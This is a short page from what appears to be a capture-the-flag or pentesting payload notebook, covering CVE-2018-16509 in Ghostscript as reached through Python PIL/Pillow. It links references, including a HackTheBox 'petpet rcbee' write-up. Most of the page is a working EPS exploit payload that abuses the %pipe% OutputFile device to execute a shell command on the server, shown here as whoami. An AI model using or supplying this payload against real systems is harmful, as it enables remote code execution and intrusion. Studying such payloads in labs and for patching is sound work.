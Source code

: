 ```yaml
---
layout: default
title: CVE-2018-16509 Python PIL/Pillow
nav_order: 1
parent: Payloads
---
```


# CVE-2018-16509 Python PIL/Pillow
{: .no_toc }

---

Need to read:
- <https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509/>
- <https://shakuganz.com/2021/06/11/hackthebox-petpet-rcbee-write-up/>

Example: HTB - petpet rcbee

Payload

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%whoami) currentdevice putdeviceprops
```
